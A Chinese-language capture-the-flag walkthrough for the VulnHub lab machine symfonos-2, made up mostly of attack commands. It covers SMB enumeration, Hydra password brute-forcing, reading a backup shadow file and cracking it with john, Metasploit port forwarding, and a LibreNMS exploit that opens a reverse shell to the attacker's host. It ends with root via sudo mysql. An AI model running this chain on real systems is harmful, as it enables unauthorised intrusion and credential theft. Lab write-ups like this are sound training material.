 # symfonos-2

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-2（IP：192.168.253.144）

下载：https://www.vulnhub.com/entry/symfonos-2,331/

## Let's go

```
nmap -A 192.168.253.144
```

![](./img/symfonos2-1.png)

>**浏览网站没有任何发现，枚举同样如此**

```
enum4linux -a 192.168.253.144
```

![](./img/symfonos2-2.png)

![](./img/symfonos2-3.png)

> **允许匿名登录，得到 'aeolus' 和 'cronus'**

```
smbclient //192.168.253.144/anonymous
cd backups
get log.txt
```

![](./img/symfonos2-4.png)

```
cat log.txt
```

![](./img/symfonos2-5.png)

![](./img/symfonos2-6.png)

> **查看文件，再次得到用户 'aeolus'**

```
vim user	#将得到用户写入文件
hydra -L user -P password/rockyou.txt  -e ns 192.168.253.144 ftp -f
```

![](./img/symfonos2-7.png)

```
#尝试SSH登录竟然成功了
ssh aeolus@192.168.253.144
password:sergioteamo
```

![](./img/symfonos2-8.png)

```
#利用上面得到的/var/backups/shadow.bak
cat /var/backups/shadow.bak
```

![](./img/symfonos2-9.png)

```
vim hash		#将哈希写入hash
john hash
```

![](./img/symfonos2-15.png)

> **放到服务器上并没有跑出来。。。**

```
#因为部分命令受限使用msf登录
search ssh_login
use 0
show options
set rhosts 192.168.253.144
set username aeolus
set password sergioteamo
```

![](./img/symfonos2-10.png)

```
run
sessions
sessions -u 1
sessions 2
```

![](./img/symfonos2-11.png)

```
netstat
```

![](./img/symfonos2-12.png)

```
#进行端口转发
portfwd add -l 4444 -r 127.0.0.1 -p 8080
```

![](./img/symfonos2-13.png)

```
http://localhost:4444/login
```

![](./img/symfonos2-14.png)

```
search librenms
use 0
show options
set rhosts 127.0.0.1
set rport 4444
set lhost 192.168.253.136
set lport 5555
set username aeolus
set password sergioteamo
run
```

![](./img/symfonos2-16.png)

```
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

![](./img/symfonos2-17.png)

```
sudo mysql -e '\! /bin/sh'
```

![](./img/symfonos2-18.png)